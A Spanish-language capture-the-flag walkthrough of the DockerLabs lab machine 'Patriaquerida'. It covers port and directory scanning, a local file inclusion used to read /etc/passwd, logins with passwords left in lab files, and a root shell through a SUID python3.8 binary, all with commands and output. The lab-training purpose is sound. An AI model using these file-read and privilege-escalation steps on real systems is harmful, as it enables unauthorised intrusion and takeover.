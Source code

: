 #MAQUINA #DOCKERLABS #FACIL
#LFI 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Patriaquerida** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 16:28 CET
Initiating ARP Ping Scan at 16:28
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:28, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:28
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:28, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-01-29 16:28:36 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 16:28 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:b8:ce:5c:65:5a:75:9e:ed:30:7a:2b:b2:25:47:6b (RSA)
|   256 a3:78:9f:44:57:0e:15:4f:15:93:59:d0:04:89:a9:f4 (ECDSA)
|_  256 5a:7a:89:3c:ed:da:4a:b4:a0:63:d3:ba:04:39:c3:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 16:29 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, usamos **gobuster** :

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,png,jpg,html,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 110]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================


```

Tenemos un index.php y dice lo siguiente:

```
Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!
```

Al meterse en ese archivo, vemos :

```shell
balu
```

**Contra -> balu**

Vamos a utilizar wfuzz para intentar ver si es vulnerable a un posible **LFI**:

   ```bash

wfuzz -u "http://172.17.0.2/index.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000099:   200        7 L      16 W       172 Ch      "page"   


```

Hay un LFI y si apuntamos a /etc/passwd, sacamos usuarios:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
pinguino:x:1000:1000::/home/pinguino:/bin/bash
mario:x:1001:1001::/home/mario:/bin/bash
```

**Usuarios -> pinguino y mario**

Al probar balu y pinguino accedemos como PINGUINO

# ESCALADA PRIVILEGIOS

Vemos que hay una nota:
   ```bash
pinguino@dockerlabs:~$ ls
nota_mario.txt
pinguino@dockerlabs:~$ cat nota_mario.txt 
La contraseña de mario es: invitaacachopo
pinguino@dockerlabs:~$ 

```
**Usuario -> mario**
**Contra -> invitacachopo**

YA ESTAMOS COMO MARIO.

Vemos  si tenemos archivos con permisos SUID:

```shell
mario@dockerlabs:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/man
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/python3.8
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```


Vemos **python3.8** con permisos SUID:

```
mario@dockerlabs:~$ ./usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
bash: ./usr/bin/python3.8: No such file or directory
mario@dockerlabs:~$ /usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
#
```

**YA ESTAMOS COMO ROOT.**